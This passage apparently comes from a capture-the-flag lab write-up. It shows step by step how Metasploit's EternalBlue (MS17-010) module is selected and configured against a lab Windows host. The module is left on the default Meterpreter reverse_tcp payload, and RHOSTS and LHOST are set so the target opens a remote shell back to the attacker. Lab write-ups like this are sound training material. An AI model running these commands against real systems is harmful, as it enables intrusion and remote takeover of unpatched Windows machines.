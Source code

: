 Interested in the first (`#0`) item in this search result. So I wanted to make use of it with:

```commandline
msf6 > use 0
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/smb/ms17_010_eternalblue) >
```

_Note that you can `use` the full name of the matching module (`use exploit/windows/smb/ms17_010_eternalblue`) and using the tab key for autocompletion, or just refer to the number like I have done._

From there on, we need to see which options we need to set with the `show options` command:

```commandline
msf6 exploit(windows/smb/ms17_010_eternalblue) > show options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS                          yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT          445              yes       The target port (TCP)
   SMBDomain                       no        (Optional) The Windows domain to use for authentication. Only affects Windows Server 2008 R2, Windows 7, Windows Embedded Standard 7 targ
                                             et machines.
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target. Only affects Windows Server 2008 R2, Windows 7, Windows Embedded Standard 7 target m
                                             achines.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target. Only affects Windows Server 2008 R2, Windows 7, Windows Embedded Standard 7 target machines.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.0.54     yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target
```

The 2 very important options we need to set before proceeding to the next step is changing the variables of `RHOSTS` and `LHOST`. The rest of the options I left as is:

```commandline
set RHOSTS 10.10.19.224
set LHOST tun0
```
